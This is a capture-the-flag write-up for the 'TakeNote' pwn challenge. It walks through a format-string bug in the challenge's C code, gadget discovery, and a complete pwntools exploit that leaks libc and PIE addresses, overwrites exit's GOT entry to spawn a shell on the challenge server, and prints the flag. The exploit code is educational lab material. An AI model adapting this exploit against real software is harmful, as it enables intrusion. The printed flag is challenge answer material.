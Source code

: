 https://ctftime.org/event/2579

# TakeNote (pwn)

Last year my command line applications were vulnerable... So I made some more! (^-^)

nc takenote.kctf-453514-codelab.kctf.cloud 1337

## Analysis

We can see that in menu 2 we have a `printf` with an attacker controlled format string: 

```c
case 2:
    puts("Which note do you want to print?\n");
    scanf("%d",&note_index);
    getchar();
    if(note_index < 0 || note_index >= n_notes){
        puts("Nice try buddy *-*\n");
        exit(1);
    }
    if(!valid[note_index]){
        puts("You haven't written that note yet >:(\n");
        exit(1);
    }
    puts("Your note reads:\n");
    printf(notes+note_index*NOTE_SIZE);
```

We can control the format string's content in menu 1 but are somewhat limited in terms of length:

```c
case 1:
    printf("Which note do you want to write to? [0 - %d]\n", n_notes-1);
    scanf("%d",&note_index);
    getchar();
    if(note_index < 0 || note_index >= n_notes){
        puts("Nice try buddy *-*\n");
        exit(1);
    }
    char input [2*NOTE_SIZE+1];
    fgets(input, sizeof(input), stdin);
    strncpy(notes + note_index*NOTE_SIZE, input, NOTE_SIZE+1);
```

We can see that the binary appears to be compiled with `-pie`:

```bash
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

So it is likely that we'll need to bypass ASLR on the main elf image in addition to ASLR on `libc.so.6`.

### Fetching libc.so.6 and ld-linux-x86-64.so.2

First build and run the provided Dockerfile:

```bash
$ sudo docker build -t asdf . && sudo docker run --rm -it asdf /bin/bash
```

Now take note of the container id (as an example shown here we get `63061bf52ced`):

```bash
$ sudo docker ps
CONTAINER ID   IMAGE     COMMAND       CREATED          STATUS          PORTS     NAMES
63061bf52ced   asdf      "/bin/bash"   44 seconds ago   Up 43 seconds             zen_euler
```

Now use the `docker cp` subcommand, with `-L` to follow symlinks, to copy both `libc.so.6` and `ld-linux-x86-64.so.2` from the running container:

```bash
$ sudo docker cp -L 63061bf52ced:/lib/x86_64-linux-gnu/libc.so.6 libc.so.6
Successfully copied 2.03MB to /home/user/ctf/pwn/takenote/test_libc.so.6
$ sudo docker cp -L 63061bf52ced:/lib64/ld-linux-x86-64.so.2 ld-linux-x86-64.so.2
Successfully copied 194kB to /home/user/ctf/pwn/takenote/ld-linux-x86-64.so.2
```

These are the hashes of the versions I got:

```bash
$ sha256sum libc.so.6 
80378c2017456829f32645e6a8f33b4c40c8efa87db7e8c931a229afa7bf6712  libc.so.6
$ sha256sum ld-linux-x86-64.so.2 
7af637a5047b1d08ed39bd18808e5bb984a069060ed52f9f5448b94f16f99330  ld-linux-x86-64.so.2

```

Now use https://github.com/io12/pwninit to patch the provided binary to use both `libc.so.6` and `ld-linux-x86-64.so.2` so we get the same behaviour locally as on the remote:

```bash
$ /opt/pwninit --bin ./chal --libc ./libc.so.6 --ld ./ld-linux-x86-64.so.2
```

This will produce a new elf called `chal_patched` that you can use with gdb.

### Finding Magic Gadgets

Magic gadgets are addresses in `lib.so.6` that, if we can jump to them, should give us a shell.

Use https://github.com/david942j/one_gadget to find a suitable gadget:

```bash
$ one_gadget ./libc.so.6 
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

Note that I tried the first one in the list first and when it didn't work I tried the second one, specifically `0xe3b01`, and luckily that worked.

## Solution

1) Leak an address from libc to bypass ASLR on `libc.so.6`
2) Leak an address from the main elf image to bypass ASLR on the main elf
3) Write a `one_gadget` into the got entry for `exit`
4) Call `exit`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chal_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("takenote.kctf-453514-codelab.kctf.cloud", 1337)

p.sendlineafter(b"How many notes do you need to write?\n", b"1")

def write_a_note(idx, note):
    p.sendlineafter(b"3. Exit\n", b"1")
    p.sendlineafter(b"write to?", str(idx).encode())
    p.sendline(note)

def read_a_note(idx):
    p.sendlineafter(b"3. Exit\n", b"2")
    p.sendlineafter(b"print?", str(idx).encode())
    p.readuntil(b"Your note reads:\n\n")
    return p.readuntil(b"What")[:-4]

write_a_note(0, b"%1$p")
leak = int(read_a_note(0).decode(), 16)
libc.address = leak - 0x1ed723

write_a_note(0, b"%14$p")
leak = int(read_a_note(0).decode(), 16)
elf.address = leak - 0x15b0

def write_what_where(where, what):
    for i in range(8):
        payload = fmtstr_payload(12, {where + i: (what >> (i * 8)) & 0xff},
            write_size="byte", strategy="small", badbytes=b"\n")
        write_a_note(0, payload)
        read_a_note(0)

ONE_GADGET = libc.address + 0xe3b01
write_what_where(where=elf.got["exit"], what=ONE_GADGET)

p.sendlineafter(b"3. Exit\n", b"3") # call exit() => ONE_GADGET

p.sendline(b"/bin/cat flag.txt")
p.readuntil(b"wctf{")
print("wctf{" + p.readuntil(b"}").decode()) # wctf{m3m0ry_l4y0u7_1s_crUc1Al_f0r_3xpL01t5}
```

## Flag
`wctf{m3m0ry_l4y0u7_1s_crUc1Al_f0r_3xpL01t5}`

smiley 2025/03/23
